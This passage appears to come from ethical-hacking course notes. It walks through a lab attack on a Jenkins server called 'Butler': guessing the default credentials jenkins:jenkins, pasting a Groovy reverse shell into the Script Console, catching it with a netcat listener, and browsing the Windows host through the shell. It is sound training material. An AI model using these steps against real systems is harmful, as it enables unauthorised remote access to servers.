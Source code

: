 Make sure to check the length column in every line and compare to the other results. This will eventually lead us to a potential username and password i.e `jenkins:jenkins`

Make sure Intercept is turned off in the Target tab and foxy proxy is disabled in your browser. Now lets try using the credentials on the login page.

![Jenkins_dashboard](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/9dd95996-b8d6-4d1f-a754-b9dc52055cdf)

It worked. Now that we are authenticated we can look up some ways to run code execution.

On the Dashboard, click on `Manage Jenkins` then scroll down to `Tools & Actions` and select `Script Console` .

![jenkins_script_console](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/ab93803a-c190-4ca4-850e-3a237406183e)

Looks like we can run groovy scripts on this page to get a reverse shell. Hop on google and look for `groovy reverse shell`. This should lead us to this [repo](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76). Copy the script and paste it into the script console.

Before we run it. Lets change the `[localhost](http://localhost)` to our Kali IP address. Changing the port is optional.

Next start a netcat listener using `nc -lvnp 8044`

Click run in the script console. And our listener should connect us through

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8044            
listening on [any] 8044 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.80] 50070
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler

c:\Program Files\Jenkins> cd c:\Users
 cd c:\Users

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users

08/14/2021  04:29 AM    <DIR>          .
08/14/2021  04:29 AM    <DIR>          ..
01/26/2024  09:38 AM    <DIR>          Administrator
01/26/2024  10:16 AM    <DIR>          butler
08/14/2021  05:25 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  11,192,856,576 bytes free

c:\Users>cd butler
cd butler

c:\Users\butler>cd
cd
c:\Users\butler

c:\Users\butler>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24
```